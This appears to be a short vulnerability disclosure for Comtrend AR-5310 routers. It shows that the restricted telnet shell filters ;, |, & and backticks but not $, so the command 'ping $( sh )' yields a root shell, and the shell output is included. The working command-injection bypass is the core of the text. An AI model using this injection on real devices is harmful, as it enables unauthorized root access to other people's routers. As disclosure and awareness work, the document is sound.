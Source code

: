 **Disclaimer: All content here is to raise awareness and is not intended for malicious use.**

Vulnerable product: Comtrend AR-5310 , firmware version: GE31-412SSG-C01_R10.A2pG039u.d24k

TL;DR: A local user can bypass the restricted shell using the commands substitution operator $( commmand )

Comtrend AR 5310 routers have a restricted shell, the list of command a user can execute is

[ ? help logout exit quit reboot ads lxdslctl xtm loglevel logdest virtualserver ddns dumpcfg 
dumpmdm meminfo psp dumpsysinfo dnsproxy syslog ifconfig ping sntp sysinfo tftp wlan wlctl
vlanctl arp defaultgateway dhcpserver dns lan lanhosts passwd ppp restoredefault route
nslookup traceroute save uptime exitOnIdle wan build version serialnumber modelname acccntr
upnp urlfilter timeres tr69cfg logouttime ipneigh dhcp6sinfo nat mcpctl ]



Usual terminal constructs like:
 - the command separator ";" 
 - the control operator  "&"  (run in forground) 
 - the redirection operator (pipe) "|" 
 - the command substitution operator "`"
 
are all filtered as shown here :
```
 > ;
Warning: operator ; is not supported!
telnetd:error:476.449:processInput:490:unrecognized command 
 > |
Warning: operator | is not supported!
telnetd:error:484.871:processInput:490:unrecognized command 
 > &
Warning: operator & is not supported!
telnetd:error:487.421:processInput:490:unrecognized command 
 > `
Warning: operator ` is not supported!
telnetd:error:495.334:processInput:490:unrecognized command 
```

Still the $ operator is not filtered:
```
 > $
telnetd:error:497.862:processInput:490:unrecognized command $
```

Here i came to the conclusion that invoking a command with $( subcommand ) as argument would 
give an obvious shell
```
> ping $( sh )                                                              
exec >&2                                                                     
ps x | grep telnet                                                           
18333 root      4164 S    telnetd -m 0                                       
18334 root      4168 S    telnetd -m 0                                       
```

**EOF**

